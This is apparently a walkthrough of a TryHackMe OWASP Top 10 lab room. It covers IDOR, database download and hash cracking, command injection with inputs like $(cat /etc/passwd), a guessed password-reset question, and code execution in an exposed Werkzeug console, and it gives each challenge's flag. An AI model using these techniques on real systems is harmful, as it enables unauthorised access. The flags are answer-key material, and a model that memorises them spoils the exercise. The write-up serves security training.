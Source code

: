 # TryHackMe: OWASP Walkthrough

Room URL: https://tryhackme.com/room/owasptop102021

---

# 1. Broken Access Control (IDOR Challenge)

**Q1. Look at other users' notes. What is the flag?**

- Change the `id` parameter till we get the flag
- `http://10.10.203.85/note.php?note_id=5`
- ![image](https://github.com/user-attachments/assets/825411d8-d060-4a86-9e45-18cb465b8f5c)
- in `id=5` it says try id number lower than 1 
- `http://10.10.203.85/note.php?note_id=0`
- ![image](https://github.com/user-attachments/assets/2fb6f7b5-f56c-4b86-88d3-fdf9e323f4f2)

Ans: ***flag{fivefourthree}***

---
# 2.Cryptographic Failures (Challenge)

**Q1. What is the name of the mentioned directory?**

- look into the source page of the login page
- ![image](https://github.com/user-attachments/assets/ed01d151-880c-4a36-af08-248a1160dd76)


Ans: ***/assets***

---
**Q2.Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?**

- go to the mentioned directory
-![image](https://github.com/user-attachments/assets/c1553b5a-9f25-4f72-b8fd-9041a8b65093)
- click on the webapp.db 
- ![image](https://github.com/user-attachments/assets/f4874008-f8a3-4ab4-bce3-26c9a1a85ae3)

Ans: ***webapp.db***

---
**Q3.Use the supporting material to access the sensitive data. What is the password hash of the admin user?**

- Download the database using this command `wget http://10.10.226.253:81/assets/webapp.db `
- ![image](https://github.com/user-attachments/assets/9b918958-f546-4860-a8a4-4cd0b9d3bd87)
- Then access the database using this command `sqlite3 webapp.db`
- show tables use, `.tables`
- To see table info use, `PRAGMA table_info(<table_name>);`
- To dump all info stored in that table, use this command. `SELECT * FROM <table_name>;`
- ![image](https://github.com/user-attachments/assets/54cef7d1-fcd9-4351-a484-241764dc2639)


`4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1`

- userID: `4413096d9c933359b898b6202288a650`
- username: `admin`
- password: `6eea9b7ef19179a06954edd0f6c05ceb`
- admin: `1`

Ans: ***6eea9b7ef19179a06954edd0f6c05ceb***

---
**Q4.Crack the hash. What is the admin's plaintext password?**
- Use https://crackstation.net/ website to crack the admin hash
- ![image](https://github.com/user-attachments/assets/696399ef-376d-44ae-b91d-141bf35faa06)

Ans: ***qwertyuiop***

---
**Q5.Log in as the admin. What is the flag?**

- Use the credentials found to login and get the flag
- ![image](https://github.com/user-attachments/assets/990867a1-3060-4b06-9521-69417b8f4209)

Ans: ***THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}***

---
# 3.Command Injection

**Q1. What strange text file is in the website's root directory?**

- type `$(ls)` to list files in the current directory
- ![image](https://github.com/user-attachments/assets/1562926f-b8bd-4bbf-8106-63556115b3f2)

Ans: ***drpepper.txt***

---
**Q2. How many non-root/non-service/non-daemon users are there?**

- type `$(cut -d: -f1,3  /etc/passwd )` to print `passwd` file and only show username and its id. or simply list home directory `ls /home`
- ![image](https://github.com/user-attachments/assets/81d5823d-fff3-4163-8601-fe47c9b1f475)

- `0 `-> root
- `1-99 or 1-99` -> system/services users
- `1000 and above `-> requler human users

- There are no regular human users. As for the user with the `id 65534` is a special one, acts as a fallback when a user is missing or unknown.

Ans: ***0***

---
**Q3. What user is this app running as?**
- type `$(whoami)` to print the current username of the user login
- ![image](https://github.com/user-attachments/assets/af8d0719-9740-4f30-a5f0-2fbf74c3c840)

Ans: ***apache***

---
**Q4. What is the user's shell set as?**

- type `$(cat /etc/passwd) `
- ![image](https://github.com/user-attachments/assets/15c72a87-096d-4aae-844f-9263c03ebc54)
- `username:x:UID:GID:comment:home:shell`

Ans: ***/sbin/nologin***

---
**Q5. What version of Alpine Linux is running?**

- type `$(cat /etc/alpine-release)` to check for Alpine version
- ![image](https://github.com/user-attachments/assets/dbc4d7eb-992f-4e17-a2a3-a7c63682ba1d)

Ans: ***3.16.0***

---
# 4. Insecure Design

**Q1. What is the value of the flag in joseph's account?**

- Try to reset joseph's password. Keep in mind the method used by the site to validate if you are indeed joseph.
- go to the login page and select I foreget my password option, set the username as `joseph` then use the simple security check to guess which is "What's your favourite colour?" the answer is `green`
- ![image](https://github.com/user-attachments/assets/a7a6d8b0-d9f3-4057-affd-12a18e0f02b4)
- Take the new password and login to joseph account
- ![image](https://github.com/user-attachments/assets/a2d8ee20-0295-40b0-a94d-6a892acc4c6d)
- ![image](https://github.com/user-attachments/assets/2033c17d-eaaa-4d0e-bca5-9d17e0f47a7e)


Ans: ***THM{Not_3ven_c4tz_c0uld_sav3_U!}***

---
# 5. Security Misconfiguration

**Q1. Navigate to http://10.10.112.172:86/console to access the Werkzeug console.**

- ![image](https://github.com/user-attachments/assets/a83ae07c-252c-4ac2-be63-55cdf764213b)

---
**Q2. Use the Werkzeug console to run the following Python code to execute the ls -l command on the server:**

`import os; print(os.popen("ls -l").read())`

**What is the database file name (the one with the .db extension) in the current directory?**

- ![image](https://github.com/user-attachments/assets/7a19cbd0-f307-4832-a2f5-493878d33a4c)

Ans: ***todo.db***

---
**Q3. Modify the code to read the contents of the `app.py` file, which contains the application's source code. What is the value of the `secret_flag` variable in the source code?**

- `import os; print(os.popen("cat app.py").read())`

Ans: ***THM{Just_a_tiny_misconfiguration}***

